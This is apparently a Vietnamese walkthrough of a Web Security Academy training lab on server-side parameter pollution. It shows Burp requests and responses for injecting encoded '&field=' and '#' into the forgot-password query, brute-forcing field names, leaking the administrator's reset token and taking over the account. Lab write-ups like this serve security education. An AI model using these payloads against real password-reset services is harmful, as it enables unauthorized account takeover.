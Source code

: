 # **Lab: Exploiting server-side parameter pollution in a query string**

>  To solve the lab, log in as the `administrator` and delete `carlos`. 

# **Solution**

Kích hoạt chức năng `Forgot password`. Sử dụng để lấy lại mật khẩu tài khoản `administrator`.

```
Please check your email: "*****@normal-user.net" 
```

Okey, chuyển sang giao diện Burpsuite, gửi request vừa rồi tới Repeater.

```
# request

POST /forgot-password HTTP/2
Host: 0a9c00d904d940b880e4da55002a001f.web-security-academy.net
Cookie: session=3jMzCy8ntjeD7V56NuUu01HUaS4eBA8v
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9c00d904d940b880e4da55002a001f.web-security-academy.net/forgot-password
Content-Type: x-www-form-urlencoded
Content-Length: 79
Origin: https://0a9c00d904d940b880e4da55002a001f.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

csrf=UzYS5AyaWmfOj8u11EuIHMdEweA9yxXN&username=administrator
```

```
# response

HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 49

{"type":"email","result":"*****@normal-user.net"}
```

Chúng ta có req và res gốc.  
Ở req gốc, thay dổi giá trị `username` thành một tên ngẫu nhiên:

```
# req

username=administrator_random
```

```
# res

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 61

{"type":"ClientError","code":400,"error":"Invalid username."}
```

Ở đây thấy res đã khác đi, có chứa thông báo `"Invalid username."`.  

Vậy nghĩa là việc sửa đổi req đang có tác dụng và có mã lỗi rõ ràng trả về.  

Tiếp tục thay đổi req:

```
# req

username=administrator%23
```

Ở đây `%23` là `#` đã được mã hóa. Mục đích nhằm thử cắt bớt yêu cầu phía máy chủ.

```
# res

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 33

{"error": "Field not specified."}
```

`"Field not specified."`. Chứng tỏ việc cắt bớt (truncate) yêu cầu thành công và gây ra lỗi tới phía máy chủ.  
Và thông báo trên cũng cho thấy có thể có một tham số phía sau `username` là `field` đã bị cắt bỏ bởi `#`.  

Giờ hãy thử thêm tham số `field`.

```
# req

username=administrator%26field=x%23
```

> %26 -> &  
%23 -> #

```
# res

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 58

{"type":"ClientError","code":400,"error":"Invalid field."}
```

Trong req, ta tự thêm tham số field và gán giá trị cho nó, kết quả ở res cho thấy `"Invalid field."`, tức là việc thêm `field` là đúng. Lỗi gây ra do field mình tự định danh không tồn tại. Đồng nghĩa với việc hành động chèn thêm tham số là thành công.

Giờ gửi req vừa test tới `Intruder`. Thực hiện bruteforce để tìm ra giá trị chính xác của tham số `field`.

Chọn `Attack type` là `Sniper` và `Payload type: Simple list`, `Payload` chọn `Server-side variable names`. 

Sau khi `"Attack"`, ta lọc những res có code là 200. Đó là những res của req mà có `field` hợp lệ.  
Ta xác định được 2 `field` hợp lệ là `email` và `username`

```
# res

{"type":"email","result":"*****@normal-user.net"}

{"type":"username","result":"administrator"}
```

Tiếp theo quay lại `Proxy History` tab, ta thấy request `GET /static/js/forgotPassword.js HTTP/2` có endpoint là của chức năng reset password.  
Trong response trả về ta thấy:

```
# code inside res function reset password

forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
}
);
```

Phân tích đoạn code trên ta thấy chức năng reset password có tham số `reset-token`.  
Đoán rằng reset-token được yêu cầu để reset mật khẩu của một tài khoản nào đó. Và cần gửi giá trị `reset_token` kèm theo với `username` để reset mật khẩu.  

```
# req

username=administrator%26field=reset_token%23
```

```
# res

HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 66

{"type":"reset_token","result":"0tktbvsrprv6tnv1aluyk48csx0ond4w"}
```

Perfect!! Vậy là thành công lấy được `reset-token`.  

Dựa theo phần code chức năng reset password:  

```
if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
```

Giờ quay lại browser và nhập url:

```
https://0a53009f040b3280834e64f000e9001f.web-security-academy.net/forgot-password?reset_token=0tktbvsrprv6tnv1aluyk48csx0ond4w
```

Nice, thành công truy cập và reset mật khẩu `administrator`. Việc cuối cùng là đăng nhập và làm việc phải làm thôi:)

![image](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRjBeuCGEk2eQqynMRhby-1iuvHJfqajeA0oA&s)